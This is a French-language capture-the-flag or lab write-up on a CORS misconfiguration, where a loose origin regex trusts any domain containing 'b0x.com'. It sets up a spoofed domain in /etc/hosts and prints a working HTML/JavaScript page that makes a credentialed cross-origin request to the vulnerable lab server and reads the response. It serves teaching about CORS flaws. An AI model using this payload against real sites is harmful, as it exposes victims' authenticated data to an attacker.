

# Application has bad "regex" Implementation to check Trusted Origin

Le second challenge propose une mauvaise configuration causée par l'utilisation d'une regex trop permissive :



En effet, il suffit simplement que le site (le nom de domaine) demandant la ressource possède l'occurrence `b0x.com`  pour être autorisé à accéder Sans cela, la requête sera bloquée par CORS :


Pour simuler un nom de domaine malicieux mais contenant l'occurrence souhaité, je modifie mon fichier `/etc/hosts` :

```
192.168.56.182    maliciousb0x.com
```

Le script hébergé sur le serveur malicieux reste le même que pour le précédent challenge :

```markup
<html>
  <head>
    <title>CORS vulnerable lab - Bad regex implementation</title>
  </head>

  <body>
    <script>
      var xhr = new XMLHttpRequest();

      xhr.open('GET', 'http://192.168.56.184/bad_regex.php', true);
      xhr.withCredentials = true;

      xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
          console.log(xhr.response);                    
        }
      }

      xhr.send();
    </script> 
  </body>
</html>
```

Le contenu du site vulnérable s'affiche bien dans la console lorsque la victime visite la page malicieuse :


La réponse lors de l'accès à la ressource contient bien l'entête CORS attendu :


